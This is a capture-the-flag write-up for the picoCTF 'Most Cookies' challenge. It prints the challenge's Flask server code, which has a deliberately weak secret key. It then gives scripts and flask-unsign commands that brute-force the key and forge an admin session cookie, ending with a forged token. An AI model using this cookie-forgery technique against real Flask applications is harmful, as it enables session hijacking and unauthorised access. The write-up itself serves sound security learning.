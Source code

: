 # Most Cookies

# Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:6259/

---
We have `server.py` : 
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

Flask Session Cookie format : 
```
base64(dictionary).timestamp.signature(secret_key)
```

Inference from `server.py` : 
* Dictionary has the following format 
  ```
  { 
      "very_auth" : "cookie_name"
  }
  ```
* We have the list of the secret_key from which a key was chosed at random to sign the cookie.
* We need `{"very_auth": "admin"}` to get the flag.
* We need to resign the cookie with data :  `{"very_auth": "admin"}`

So I downloaded a python tool called `flask-unsign`

### Uproach 1 : manual bruteforce (dumb approach not recommended)

cookie_generator.py : 
```python
import os 

secret = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

json = "{'very_auth':'admin'}"
for i in secret:
    os.system('~/.local/bin/flask-unsign --sign --cookie "{}" --secret "{}" >> cookies.txt'.format(json,i))
```

This saves the data signed with all possible secret keys. (Becuse I don't want to use `subprocess.Popen`)

brute_cookie.py :
```python
import requests

url = "http://mercury.picoctf.net:6259/display"

with open('cookies.txt','r') as file:
    for i in file.readlines():
        res = requests.get(url,cookies={'session':i[:-1]},allow_redirects=False).text
        if "picoCTF{" in res:
            print("cookie found {}".format(i))
            break
```
 This reads the cookie from the file and sends it with the request, and breaks when the response HTML contains the string "`picoCTF{`"

 ```
 ❯ python brute_cookie.py
cookie found eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YQRCyA.LtpKqizX5FiCRrHyXXY_mQ1LrZQ
```

### Approach 2 
`flask-unsigned` already has the abilily to brute force the secret_key. Yes. I didn't know about that.
 ```
 ❯ ~/.local/bin/flask-unsign --unsign --cookie --wordlist wordlist < cookie.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```
wordlist : 
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
So we use `gingersnap` to resign the cookie: 
```
❯ ./flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret gingersnap   
```
and we get the signed cookie: 
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YQRMhw.qe_xzrHNc5sjDdjy-Y6Cykda72c
```
